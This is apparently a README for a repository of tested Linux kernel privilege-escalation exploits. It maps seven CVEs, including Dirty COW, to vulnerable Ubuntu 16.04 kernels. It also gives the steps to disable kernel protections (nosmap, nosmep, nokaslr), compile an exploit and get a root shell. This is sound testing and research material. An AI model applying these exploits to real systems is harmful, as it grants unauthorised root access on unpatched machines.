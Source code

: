 # Linux kernel exploits for local privilege escalation

## Background
It is hard to find Linux kernel exploits and local privilege escalation exploits are rarely found. Fortunately, exploit-db has all kinds of exploits including the local privilege escalation (thank you exploit-db!). However, it is hard to test them because of the nature of the exploit.

For this reason, I set up an environment with Ubuntu 16.04.01 and tested local privilege escalation exploits of exploit-db. The working exploits are shown below (the list will be updated continuously).

| No | CVE ID and Exploit | Kernel Version        |
|:-:|:----------------:|:------------------------:|
| 1 | CVE-2016-4557 | kernel-4.4.0-21-generic |
| 2 | CVE-2016-5195 | kernel-4.4.0-21-generic, 4.4.0-31-generic |
| 3 | CVE-2016-8655 | kernel-4.4.0-21-generic |
| 4 | CVE-2017-6074 | kernel-4.4.0-21-generic |
| 5 | CVE-2017-7308 | kernel-4.8.0-41-generic |
| 6 | CVE-2017-1000112 | kernel-4.8.0-58-generic |
| 7 | CVE-2017-16995 | kernel-4.10.0-28-generic |

## Disclaimer
The exploits are not stable. They can corrupt your system and you need to disable some kernel protection features for testing them. For this reason, I strongly recommend a virtual machine environment to you.  

## How to use
### Install Ubuntu 16.04.01 version and clone the project.

```bash
# Clone the repository
$> git clone https://github.com/kkamagui/linux-kernel-exploits.git
```

### Install the specific kernel version for exploits and disable kernel protection feature.

```bash
# Install the kernel to test exploits. ex) kernel-4.4.0-21-generic for CVE-2016-4557
$> sudo apt update 
$> sudo apt install linux-image-4.4.0-21-generic
$> sudo apt install linux-image-extras-4.4.0-21-generic

# Add "nosmap nosmep nokaslr" to disable kernel protection feature and disable GRUB_HIDDEN_TIMEOUT to choose a specific kernel
$> sudo vi /etc/default/grub
...
#GRUB_HIDDEN_TIMEOUT=0
GRUB_CMDLINE_LINUX_DEFAULT="quiet splash nosmap nosmep nokaslr"

# Update GRUB and reboot
$> sudo update-grub
$> reboot
```

### Boot and choose the specific kernel and compile exploits.
Recommend recompiling every time to clean up.

```bash
# ex) CVE-2016-4557 for testing
$> cd linux-kernel-exploits/kernel-4.4.0-21-generic/CVE-2016-4557
$> ./compile.sh

# Run the exploit
$> ./CVE-2016-4557
.......
got root!
$root> id
uid=0(root) gid=0(root) groups=0(root)
```

## Contributions
Your contributions are always welcome! If you have nice exploits, please share them with others.
